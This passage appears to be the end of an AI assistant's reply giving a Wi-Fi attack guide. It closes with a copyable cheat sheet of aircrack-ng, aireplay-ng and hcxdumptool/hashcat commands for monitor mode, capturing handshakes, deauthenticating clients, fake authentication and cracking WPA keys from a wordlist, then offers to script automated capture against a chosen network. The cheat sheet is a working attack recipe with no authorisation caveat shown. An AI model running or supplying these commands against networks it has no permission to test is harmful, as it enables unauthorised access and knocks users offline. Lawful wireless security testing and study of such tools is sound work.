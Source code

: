 
## 14) Quick one-page cheat sheet (copyable)
```text
# Prep
sudo rfkill unblock wifi
iw dev
sudo airmon-ng

# Monitor mode
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager

# Scan & capture
sudo airodump-ng wlan0mon
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
sudo airodump-ng --output-format pcap,csv -w capture wlan0mon

# Deauth & injections
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
sudo aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT> wlan0mon
sudo aireplay-ng --fakeauth 10 -a <BSSID> -h <YOUR_MAC> wlan0mon

# Crack
sudo aircrack-ng -w /path/to/wordlist -b <BSSID> capture-01.cap

# PMKID capture -> Hashcat
sudo hcxdumptool -i wlan0mon -o dump.pcapng
hcxpcapngtool -o hashcat.22000 dump.pcapng
hashcat -m 22000 hashcat.22000 /path/to/wordlist
```

---

## 15) References & further reading
- `man` pages: `man airmon-ng`, `man airodump-ng`, `man aireplay-ng`, `man aircrack-ng`
- Aircrack-ng official docs and wiki
- hcxtools / hcxdumptool documentation
- Kismet & Bettercap documentation

---

If you'd like, I can:
1. Also save this as a PDF (I can try to produce one),  
2. Add a one-page printable cheat-sheet PDF, or  
3. Create a separate script that automates setting monitor mode and starting a capture for a chosen BSSID.

Tell me which of those (1, 2, or 3) you want next.
